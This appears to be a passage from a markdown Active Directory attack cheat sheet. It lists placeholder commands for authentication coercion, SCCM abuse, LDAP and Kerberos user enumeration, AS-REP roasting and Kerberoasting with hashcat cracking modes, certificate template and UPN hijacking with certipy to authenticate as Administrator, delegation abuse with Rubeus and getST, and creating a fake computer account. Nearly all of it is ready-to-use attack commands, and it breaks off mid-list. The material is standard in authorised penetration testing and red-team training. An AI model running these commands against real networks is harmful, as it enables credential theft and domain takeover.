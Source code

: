             *   `nxc smb [DC_IP] [AUTH_STRING] -M coerce_plus -o LISTENER=[RESPONDER_IP] ALWAYS=true`    
            *   [PrivExchange](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/CVE/PrivExchange/) → User with Exchange Mailbox
    *   SCCM Abuse
        *   `sccmhunter.py smb -u [USER] -p [PASS] -d [DOMAIN] -dc-ip [DC_IP] -save`
        *   `sccmhunter.py show -all`
        *   [Exploitation](https://www.thehacker.recipes/ad/movement/sccm-mecm/privilege-escalation)
        *   [Admin Hunting](https://www.thehacker.recipes/ad/movement/sccm-mecm/lateral-movement)
*   LDAP
    *   User Enumeration
        *   LDAP Query         → `nxc ldap [DC_IP] [AUTH_STRING] --query "(sAMAccountType=805306368)" "sAMAccountName description memberOf"`
        *   KB Bruteforcing  → `kerbrute userenum -d [DOMAIN] [GENERATED_USERS.txt] --dc [DC_IP] -d [DOMAIN]`
        *   Full DB Dump     → `ldeep [AUTH_STRING] -d [DOMAIN] -s ldap://[DC_IP] all [OUT_DIR]` → [Data Parsing](https://github.com/franc-pentest/ldeep)
    *   Domain Roasting
        *   [Clock Sync](https://swisskyrepo.github.io/InternalAllTheThings/active-directory/ad-tricks/#kerberos-clock-synchronization)
            *   `sudo timedatectl set-ntp off`
            *   `sudo rdate -n [DC_IP]`
        *   ASREP
            *   `nxc ldap [DC_IP] -u [VALID_USERS.txt] -p '' --asreproast --kdcHost [DOMAIN]`
            *   `nxc ldap [DC_IP] [AUTH_STRING] --asreproast --kdcHost [DOMAIN]`
            *   Cracking → `hashcat -m 18200`
        *   KBR
            *   `nxc ldap              [DC_IP] [AUTH_STRING] --kerberoasting --kdcHost [DOMAIN]`
            *   `GetUserSPNs.py        [DOMAIN]/ -no-preauth [ASREP_USERNAME] -usersfile [VALID_USERS.txt] -dc-ip [DC_IP]`
            *   `targetedKerberoast.py [AUTH_STRING] -dc-ip [DC_IP] -d [DOMAIN]`
            *   Cracking → `hashcat -m 13100`
    *   Certificate Abuse
        *   [ESC Exploitations](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation)
        *   Enumeration
            *   `nxc ldap [DC_IP]    [AUTH_STRING] -M adcs`
            *   `certipy-ad find     [AUTH_STRING] -scheme ldap -debug -dc-ip [DC_IP] -vulnerable -stdout`
            *   `certipy-ad template [AUTH_STRING] -template [TEMPLATE_NAME] -dc-ip [DC_IP]`
        *   Template Hijacking
            *   `certipy-ad template [AUTH_STRING] -template [TEMPLATE] -target [DC_HOSTNAME] -dc-ip [DC_IP]`
            *   `certipy-ad req      [AUTH_STRING] -ca [CA_NAME] -target [DC_HOSTNAME] -dc-ip [DC_IP] -template [TEMPLATE] -upn Administrator@[DOMAIN] -ns [DC_IP] -dns [DC_IP]`
            *   `certipy-ad auth -pfx [PFX_FILE] -dc-ip [DC_IP]`
        *   UPN Hijacking
            *   `certipy-ad account update [AUTH_STRING] -user [VULN_USER] -upn "Administrator" -dc-ip [DC_IP]`
            *   `certipy-ad req [VULN_USER_AUTH_STRING] -target [DC_IP] -ca [CA_NAME] -template [TEMPLATE] -dc-ip [DC_IP]`
            *   `certipy-ad account update [AUTH_STRING] -user [VULN_USER] -upn "[VULN_USER]@[DOMAIN]" -dc-ip [DC_IP]`
            *   `certipy-ad auth -pfx [PFX_FILE] -domain [DOMAIN] -dc-ip [DC_IP]`
    *   [Delegation Abuse](https://www.thehacker.recipes/ad/movement/kerberos/delegations/)
        *   Unconstrained
            *   `nxc ldap [DC_IP] [AUTH_STRING] --trusted-for-delegation`
            *   `Invoke-Rubeus -Command "dump /nowrap"`
            *   `Invoke-Rubeus -Command "monitor /monitorinterval:10 /targetuser:dc1$ /nowrap"`
        *   Constrained
            *   `nxc ldap [DC_IP] [AUTH_STRING] --find-delegation`
            *   `getST.py [AUTH_STRING] -dc-ip [DC_IP] -spn [TRUSTED_SPN] -impersonate Administrator`
            *   [Without Protocol Transition](https://www.thehacker.recipes/ad/movement/kerberos/delegations/constrained)
        *   Resource Delegation
            *   `nxc ldap [DC_IP] [AUTH_STRING] --find-delegation`
            *   Computer Account
                *   `bloodyAD --host "[DC_IP]" -d "[DOMAIN]" [AUTH_STRING] add computer "FAKE$" "password123"`